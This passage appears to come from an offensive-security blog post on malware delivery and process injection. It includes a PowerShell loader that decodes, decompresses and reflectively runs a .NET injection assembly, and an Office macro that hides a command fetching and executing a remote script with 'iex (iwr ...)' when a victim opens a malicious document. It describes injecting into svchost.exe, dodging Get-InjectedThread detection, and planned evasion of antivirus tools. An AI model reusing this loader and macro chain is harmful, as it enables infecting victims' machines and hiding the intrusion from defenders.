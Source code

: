 Create a PowerShell script to decode this compressed and encoded bytestream.
```PowerShell
$a = New-Object System.IO.MemoryStream(, [System.Convert]::FromBase64String("compressed and encoded bytestream here"))
$b = New-Object System.IO.Compression.GZipStream($a, [System.IO.Compression.CompressionMode]::Decompress)
$c = New-Object System.IO.MemoryStream;
$b.CopyTo($c)
[byte[]]$d = $c.ToArray()
$e = [System.Reflection.Assembly]::Load($d)
$f = [System.Console]::Out
$g = New-Object System.IO.StringWriter
[System.Console]::SetOut($g)

$h = [Reflection.BindingFlags]"Public,NonPublic,Static"
$i = $e.GetType("injection.Program", $h)
$j = $i.GetMethod("Main", $h)
$j.Invoke($null, (, [string[]]$args))

[System.Console]::SetOut($f)
$k = $g.ToString()
$k
```

Get this PowerShell script to be loaded and executed via an Office macro, something like:
```Visual Basic
Dim str As String
    walk = "powershell iex (iwr http://hostingserver/notmalicious.ps1 -Useb)"
    CreateObject("Wscript.Shell").Run walk, 0
```
When the victim opens the maldoc and enables macro, WINWORD will load our PowerShell script, decode, decompress and reflectively run the .NET Assembly.

{{< image src="/images/earlybird_injection.png" alt="inject into svchost.exe" position="center" style="border-radius: 8px;" >}}
*Process injection into svchost.exe*

{{< image src="/images/not_caught_by_getInjectedThread.png" alt="Get-InjectedThread could no longer detect our injection" position="center" style="border-radius: 8px;" >}}
*Get-InjectedThread could no longer detect our injection*

## Is this good enough?
Well no, modern AV/EDR can still nuke our work immediately, this is mainly to demonstrate a common injection technique implemented with D/Invoke.
In Part 2, we can make our `svchost.exe` malware even more benign by PPID Spoofing, making it appear as it got spawned by `services.exe`, which is normally the case. I'm also working on invoking system calls with D/Invoke instead of standard API calls to defeat API Hooking. Stay tuned!